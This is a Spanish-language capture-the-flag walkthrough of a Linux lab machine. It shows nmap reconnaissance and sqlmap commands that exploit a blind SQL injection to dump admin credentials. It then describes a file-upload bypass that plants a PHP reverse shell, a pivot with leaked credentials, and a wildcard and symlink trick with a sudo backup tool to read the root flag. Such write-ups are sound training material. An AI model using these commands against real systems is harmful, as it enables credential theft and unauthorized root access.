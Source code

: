 #Easy #fuzzing #fuzzing #nmap #Linux 
### Ping
```python
ping -c 1 10.10.11.18
PING 10.10.11.18 (10.10.11.18) 56(84) bytes of data.
64 bytes from 10.10.11.18: icmp_seq=1 ttl=63 time=70.9 ms

--- 10.10.11.18 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 70.927/70.927/70.927/0.000 ms
```

### TTL 63=Linux

### nmap
```python
sudo nmap -p- --open -sC -sV --min-rate 3000 -Pn 10.10.11.18 -oN Scan
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-13 19:43 EDT
Nmap scan report for 10.10.11.18
Host is up (0.069s latency).
Not shown: 65527 closed tcp ports (reset), 6 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
|_  256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://usage.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.51 seconds
```


### Enumeración del puerto 80 (http)

![[Pasted image 20240611211318.png]]

podemos registrarnos en la pagina web pero no tenemos mucha información
![[Pasted image 20240611211324.png]]

si intentamos cambiar la contraseña podemos notar que nos da como resultado una notificación donde podemos ver nuestro correo
![[Pasted image 20240611211329.png]]

### sqlmap
después de hacer un montón de pruebas hemos descubierto que el parámetro mail es vulnerable a sqli blind por lo que vamos a comprobarla con 
```python
sqlmap -r request.txt --level 5 --risk 3 -p email --batch -D usage_blog -T admin_users -C username,password --dump
```

![[Pasted image 20240611211338.png]]

![[Pasted image 20240611211343.png]]
###### con este ataque podemos determinar que es una blind sqli por lo cual el ataque puede tardar bastante. 

### Blind SQLI

```python
sqlmap -r request.txt --level 5 --risk 3 -p email --batch
```

![[Pasted image 20240611211349.png]]

`obtenemos el nombre de la base de datos y el nombre de las tablas`
![[Pasted image 20240611211355.png]]

### sqlmap 
una ves obtenemos la información de la base de datos vamos a realizar la solicitud apuntando al username y password 
```python
sqlmap -r request.txt --level 5 --risk 3 -p email --batch -D usage_blog -T admin_users -C username,password --dump --threads 10
```

![[Pasted image 20240611211410.png]]

![[Pasted image 20240611211414.png]]

### web
de esta manera logramos conseguir las credenciales que estaban en la base de datos vulnerando el parámetro mal para obtener acceso a la pagina web
`en el apartado de administrador podemos subir un archivo.jpg que vamos a utilizar para meter una reverse shell oculta`
![[Pasted image 20240611211420.png]]

`Burpsuite`
interceptamos y cambiamos la extensión del archivo para agregar .php de la manera que se muestra en la imagen
![[Pasted image 20240611211426.png]]

`a la derecha podemos ver que nos da un estatus 302 lo que significa que esta haciendo una redireccion. simplemente seguimos la redireccion y listo`
![[Pasted image 20240611211431.png]]

`haciendo Fuzzing podemos descubrir que existe el directorio /uploads/images/ y aqui dentro se encuentra nuestro archivo que al llamarlo nos entabla una reverse shell. para ello debemos estar a la escucha`
![[Pasted image 20240611211437.png]]

### rshell
aqui obtenemos una reverse shell como el usuario dash
![[Pasted image 20240611211443.png]]

### User Pivoting
hemos conseguido un usuario llamado xander y también un archivo oculto dentro del directorio de dash que hemos logrado leer y contiene unas credenciales
![[Pasted image 20240611211448.png]]

### ssh
usamos el protocolo ssh para conectarnos como el usuario xander
![[Pasted image 20240611211452.png]]

### sudo -l
tenemos permisos de sudo para un binario llamado `/usr/bin/usage_management` el cual tiene 3 opciones y podemos ver que la ruta donde se esta ejecutando estas opciones es `/var/www/html`
![[Pasted image 20240611211458.png]]

`Wildcard`
usando este script podemos explicar esta Wildcard para obtener el root.txt de la siguiente forma
```python
	>cd /var/www/html/
	
	>touch '@root.txt'
	
	>ln -s -r /root/root.txt root.txt
	
	>sudo /usr/bin/usage_management #Opcion 1 (Project Backup)
	
```
en el apartado de WARNING: No more file podemos leer la flag

![[Pasted image 20240611211506.png]]
### WE ARE ROOT
